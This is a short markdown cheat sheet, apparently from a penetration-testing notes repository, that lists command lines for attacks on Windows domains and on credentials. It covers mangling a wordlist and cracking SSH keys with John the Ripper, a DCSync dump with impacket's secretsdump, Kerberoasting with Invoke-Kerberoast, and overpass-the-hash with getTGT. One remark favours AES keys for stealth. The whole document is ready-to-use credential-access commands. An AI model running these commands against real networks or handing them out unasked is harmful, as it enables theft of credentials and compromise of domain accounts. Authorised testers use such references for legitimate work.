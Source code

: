 ## mangle wordlist
- `john --wordlist=month --rules --stdout > new_list`

## crack ssh keys
- `/usr/share/john/ssh2john.py id_rsa > hash.john`
- `john --wordlist=/usr/share/wordlists/rockyou.txt hash.john`

---

# secretsdump.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## dcsync
- `/usr/share/doc/python3-impacket/examples/secretsdump.py username@target-ip -dc-ip target-ip`

---

# invoke-kerberoast.ps1
- service: kerberos
- tactics: credential_access
- suites: powershell_empire

## execute invoke-kerberoast.ps1
- `invoke-kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>`

---

# gettgt.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## overpass the hash

## Request the TGT with hash
- `python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>`

## Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>`
